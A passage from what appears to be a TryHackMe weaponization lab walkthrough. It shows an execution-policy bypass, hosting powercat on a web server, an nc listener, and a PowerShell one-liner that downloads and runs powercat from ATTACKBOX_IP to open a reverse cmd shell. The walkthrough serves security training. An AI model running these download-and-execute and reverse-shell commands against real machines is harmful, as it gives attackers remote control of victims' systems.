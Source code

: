 CMD

```shell-session
C:\Users\thm\Desktop>powershell -ex bypass -File thm.ps1
Welcome to Weaponization Room!
```

Now, let's try to get a reverse shell using one of the tools written in PowerShell, which is powercat. On your AttackBox, download it from GitHub and run a webserver to deliver the payload.

Terminal

```shell-session
user@machine$ git clone https://github.com/besimorhino/powercat.git
Cloning into 'powercat'...
remote: Enumerating objects: 239, done.
remote: Counting objects: 100% (4/4), done.
remote: Compressing objects: 100% (4/4), done.
remote: Total 239 (delta 0), reused 2 (delta 0), pack-reused 235
Receiving objects: 100% (239/239), 61.75 KiB | 424.00 KiB/s, done.
Resolving deltas: 100% (72/72), done.
```

Now, we need to set up a web server on that AttackBox to serve the powercat.ps1 that will be downloaded and executed on the target machine. Next, change the directory to powercat and start listening on a port of your choice. In our case, we will be using port 8080.

Terminal

```shell-session
user@machine$ cd powercat
user@machine$ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```

On the AttackBox, we need to listen on port 1337 using nc to receive the connection back from the victim.

Terminal

```shell-session
user@machine$ nc -lvp 1337
```

Now, from the victim machine, we download the payload and execute it using PowerShell payload as follows,

Terminal

```shell-session
C:\Users\thm\Desktop> powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://ATTACKBOX_IP:8080/powercat.ps1');powercat -c ATTACKBOX_IP -p 1337 -e cmd"
```

Now that we have executed the command above, the victim machine downloads the powercat.ps1  payload from our web server (on the AttackBox) and then executes it locally on the target using cmd.exe and sends a connection back to the AttackBox that is listening on port 1337. After a couple of seconds, we should receive the connection call back:

Terminal
